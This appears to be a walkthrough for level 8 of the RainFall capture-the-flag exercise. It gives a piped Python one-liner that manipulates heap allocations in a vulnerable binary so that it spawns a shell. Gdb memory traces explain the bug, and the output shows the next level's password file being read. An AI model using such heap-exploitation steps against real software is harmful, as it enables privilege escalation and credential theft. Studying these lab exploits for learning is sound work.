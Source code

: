 # Walkthrough

## Solution

```
(python -c "print ('auth '); print ('reset'); print('service0123456789012345'); print('login')"; cat) | ./level8
(nil), (nil) 
0x804a008, (nil) 
0x804a008, (nil) 
0x804a008, 0x804a018 
whoami
level9
cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

## Explanation

### Execution

```
level8@RainFall:~$ ./level8 
(nil), (nil) 
hello
(nil), (nil) 
bonjour
(nil), (nil) 
^C
level8@RainFall:~$ ./level8 hello world
(nil), (nil) 
bon
(nil), (nil) 
^C
```
-> The programs prints "nil" twice and then waits for input in a loop.

### Disassembly

```
info var
0x08049aac  auth
0x08049ab0  service

info functions
0x08048540  frame_dummy
0x08048564  main
```
You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  


### Steps

The programs run system("/bin/sh") after a serie of conditional jumps.
It uses fgets() to get input from the user -> we can't overflow this.

- auth  
malloc() and strcpy() datas following the *auth* into the auth variable.  
- service  
strdup() and copies datas following the *service* into the service variable.  
- reset  
free(auth)  
- login  
calls system("/bin/sh") if auth[32] != 0
else, calls fwrite.  

It then displays addresses of the variables auth and service.  

```
(gdb) run
Starting program: /home/user/level8/level8 
(nil), (nil) 
> "auth " (ctrl+d and not enter, so that we don't have the \n in the input)
Breakpoint 1, 0x080486b5 in main ()
1: x/3i $pc
=> 0x80486b5 <main+337>:	lea    0x20(%esp),%eax
   0x80486b9 <main+341>:	mov    %eax,%edx
   0x80486bb <main+343>:	mov    $0x804882d,%eax
(gdb) c
Continuing.
0x804a008, (nil) 
> reset (ctrl+d and not enter, so that we don't have the \n in the input)
Breakpoint 1, 0x080486b5 in main ()
1: x/3i $pc
=> 0x80486b5 <main+337>:	lea    0x20(%esp),%eax
   0x80486b9 <main+341>:	mov    %eax,%edx
   0x80486bb <main+343>:	mov    $0x804882d,%eax
(gdb) c
Continuing.
0x804a008, (nil) 
serviceAAAAAAAAAAAAAAAAA (17 * 'A')
Breakpoint 1, 0x080486b5 in main ()
1: x/3i $pc
=> 0x80486b5 <main+337>:	lea    0x20(%esp),%eax
   0x80486b9 <main+341>:	mov    %eax,%edx
   0x80486bb <main+343>:	mov    $0x804882d,%eax
(gdb) c
Continuing.
0x804a008, 0x804a018 
login
Breakpoint 1, 0x080486b5 in main ()
1: x/3i $pc
=> 0x80486b5 <main+337>:	lea    0x20(%esp),%eax
   0x80486b9 <main+341>:	mov    %eax,%edx
   0x80486bb <main+343>:	mov    $0x804882d,%eax
(gdb) i var auth
All variables matching regular expression "auth":

Non-debugging symbols:
0x08049aac  auth
0xb7fd4314  _null_auth
0xb7fd4a90  svcauthdes_stats
(gdb) x/2wx 0x08049aac
0x8049aac <auth>:	0x0804a008	0x0804a018
-> We can see that the address of service (0x0804a018) is 16 bytes after the address of auth (0x0804a008)

(gdb) x/16wx 0x0804a008
0x804a008:	0x00000000	0x00000000	0x00000000	0x00000019
0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a028:	0x00000041	0x00020fd9	0x00000000	0x00000000       // 0x804a028 is not at 0 anymore, so we can launch the shell
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) c
Continuing.
$ pwd
/home/user/level8
```

- Final Command

(python -c "print ('auth '); print ('reset'); print('service0123456789012345'); print('login')"; cat) | ./level8